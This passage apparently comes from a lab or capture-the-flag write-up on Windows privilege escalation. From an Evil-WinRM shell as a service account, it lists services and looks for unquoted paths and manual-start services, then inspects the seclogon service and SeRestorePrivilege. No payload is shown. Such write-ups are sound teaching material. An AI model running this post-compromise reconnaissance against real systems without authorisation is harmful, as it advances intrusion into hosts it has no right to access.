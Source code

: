 Cause the user is `Service Account` so that maybe with some permission to control all services.

```powershell
*Evil-WinRM* PS C:\Users\svc_apache$\documents> cmd.exe /c sc queryex state=all type=service

*Evil-WinRM* PS C:\Users\svc_apache$\documents> Get-Service | findstr -i "manual"

*Evil-WinRM* PS C:\Users\svc_apache$\documents> gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name

*Evil-WinRM* PS C:\Users\svc_apache$\documents>gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "manual"} | select PathName,DisplayName,Name

```

But the result is not good. Always `Access Denied` or `This operation might require other privileges.`

### Check the privileges that are required by the task

we see the privileges that are required by the task (`SeRestorePrivilege` is listed), the object name (who executes the service = SYSTEM), and the start value (0x3 = manual):

```powershell
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\seclogon
```

<img src="../Images/image-20230820114829805.png" alt="image-20230820114829805" style="zoom:80%;" />



### Confirm this is service is set to manual start

```powershell
cmd.exe /c sc qc seclogon
```

<img src="../Images/image-20230820114951468.png" alt="image-20230820114951468" style="zoom:80%;" />
